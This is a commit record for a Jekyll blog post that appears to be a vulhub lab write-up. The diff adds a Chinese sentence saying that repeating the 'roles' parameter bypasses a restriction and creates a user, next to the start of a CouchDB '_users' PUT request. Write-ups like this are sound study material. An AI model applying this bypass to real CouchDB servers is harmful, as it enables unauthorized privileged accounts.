

Before and after one commit to co0ontty/co0ontty.github.io, a Jekyll site: the page built from _posts/2019-6-10-vulhub.md, in a window 1280 px wide and 900 px high, scrolled down 1512 px, cut to the strip 248-900 px from the top of the window. Shown: the whole strip, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 2019-6-10-vulhub.md

````diff
--- a/_posts/2019-6-10-vulhub.md
+++ b/_posts/2019-6-10-vulhub.md
@@ -50,6 +50,8 @@
 
 ![5cfe35326689f17529](https://i.loli.net/2019/06/10/5cfe35326689f17529.png)
 
+重复发送roles参数，成功绕过限制，创建用户
+
 ```textile
 PUT /_users/org.couchdb.user:username HTTP/1.1
 
````
